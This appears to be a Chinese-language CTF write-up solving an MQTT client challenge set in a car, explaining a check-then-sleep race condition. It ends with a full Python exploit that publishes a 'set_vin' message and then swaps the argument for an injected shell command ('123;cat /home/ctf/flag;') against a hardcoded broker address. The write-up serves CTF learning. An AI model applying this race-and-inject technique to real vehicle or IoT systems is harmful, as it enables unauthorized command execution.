


# mqtt

> 某车企新来的实习生想要给汽车上的MQTT客户端加强一下性能，却没想到弄巧成拙，
> 你能试着攻破客户端吗？

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

第一次做mqtt的题，一开始依赖都没有，还好国赛有上网区，趁10分钟的机会把依赖下一下。

题目附件中并没有给出broker的信息，因此broker大概不是考点，
我们可以直接借助`python-paho`这样的库来操作题目。

> [!IMPORTANT]
> 在做题之前，首先要知道mqtt的工作原理，mqtt中存在中心代理broker，负责接受并广播消息，
> 客户端使用subscribe来“监听”某个指定的主题，然后使用publish将消息广播到所有订阅了该主题的客户端上。
> 对于这道题，我们不需要也不能和目标二进制直接建立连接，只能用mqtt机制去打。

虽然剥了符号，但是并不难，整体逆向量很小，唯一需要注意的代码就在这里：



在处理每条消息的时候，都会开一条新的线程，这意味着存在着临界资源；
在处理`set_vin`指令时，check后等待了2秒再继续运行命令，这意味着临界资源能被其他线程修改；
在check和运行命令时都从全局变量中获取内容，没有先复制到栈上；
摆明了就是条件竞争，先运行正确的`set_vin`指令，然后在sleep过程中，
再publish一条消息把`arg`修改掉，就可以成功注入命令了。

我就说怎么这么多人做出来呢，原来是这么简单的条件竞争，还是条件竞争做少了，
下次要有看到sleep就想到条件竞争的敏锐感。

## EXPLOIT

```python
import paho.mqtt.client as mqtt
import time
from json import dumps

broker = '39.96.190.95'
client_id = "python_client"
vin = 'XDGV56EK1R8B3W42B'
hashn = 0
for ch in vin:
    hashn = hashn * 0x1f + ord(ch)
auth = hex(hashn)[-8:]

def on_connect(client, userdata, flags, rc):
    print(f"Connected with result code {rc}")
    client.subscribe("diag")

def on_message(client, userdata, msg):
    print(f"{msg.topic}: {msg.payload.decode()}")

client = mqtt.Client(client_id)
client.on_connect = on_connect
client.on_message = on_message
client.connect(broker, 36985, 60)
cmd = {
    'auth': auth,
    'cmd': 'set_vin',
    'arg': '1234567890',
}
client.loop_start()
client.subscribe('diag/resp')
client.publish('diag', dumps(cmd))
time.sleep(1)
cmd['arg'] = '123;cat /home/ctf/flag;'
client.publish('diag', dumps(cmd))
try:
    while True:
        time.sleep(0.5)
except KeyboardInterrupt:
    pass
client.loop_stop()
client.disconnect()
```


